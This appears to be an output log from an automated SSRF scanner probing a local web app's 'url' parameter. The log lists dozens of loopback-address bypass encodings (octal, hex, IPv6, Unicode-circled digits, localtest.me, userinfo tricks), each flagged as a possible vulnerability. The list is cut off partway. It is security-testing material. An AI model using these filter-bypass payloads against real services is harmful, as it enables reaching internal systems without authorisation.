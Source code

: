  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=7F000001` _(POST)_
- Testing: `http://localhost:4200/?url=2130706433`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=2130706433` _(POST)_
- Testing: `http://localhost:4200/?url=6425673729`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=6425673729` _(POST)_
- Testing: `http://localhost:4200/?url=127001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127001` _(POST)_
- Testing: `http://localhost:4200/?url=127_0._0_1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127_0._0_1` _(POST)_
- Testing: `http://localhost:4200/?url=0000%3A%3A1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000%3A%3A1` _(POST)_
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000%3A%3A1%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%3A%3Affff%3A7f00%3A0001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%3A%3Affff%3A7f00%3A0001` _(POST)_
- Testing: `http://localhost:4200/?url=0000%3A0000%3A0000%3A0000%3A0000%3Affff%3A7f00%3A0001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000%3A0000%3A0000%3A0000%3A0000%3Affff%3A7f00%3A0001` _(POST)_
- Testing: `http://localhost:4200/?url=localtest.me`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localtest.me` _(POST)_
- Testing: `http://localhost:4200/?url=bugbounty.dod.network`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=bugbounty.dod.network` _(POST)_
- Testing: `http://localhost:4200/?url=127.127.127.127`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.127.127.127` _(POST)_
- Testing: `http://localhost:4200/?url=0177.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0177.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%91%A1%E2%91%A7%E2%91%A4%E2%91%A1%E2%93%AA%E2%91%A2%E2%91%A8%E2%91%A0%E2%91%A5%E2%91%A5%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%91%A1%E2%91%A7%E2%91%A4%E2%91%A1%E2%93%AA%E2%91%A2%E2%91%A8%E2%91%A0%E2%91%A5%E2%91%A5%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%E3%80%82%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%E3%80%82%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=whitelisted%40127.0.0.1`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=whitelisted%40127.0.0.1` _(POST)_
- Testing: `http://localhost:4200/?url=0x7f000001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x7f000001` _(POST)_
- Testing: `http://localhost:4200/?url=017700000001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=017700000001` _(POST)_
- Testing: `http://localhost:4200/?url=0177.00.00.01`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0177.00.00.01` _(POST)_
- Testing: `http://localhost:4200/?url=0000.0000.0000.0000`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000.0000.0000.0000` _(POST)_
- Testing: `http://localhost:4200/?url=0177.0000.0000.0001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0177.0000.0000.0001` _(POST)_
- Testing: `http://localhost:4200/?url=0177.0001.0000..0001`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0177.0001.0000..0001` _(POST)_
- Testing: `http://localhost:4200/?url=0x7f.0x1.0x0.0x1`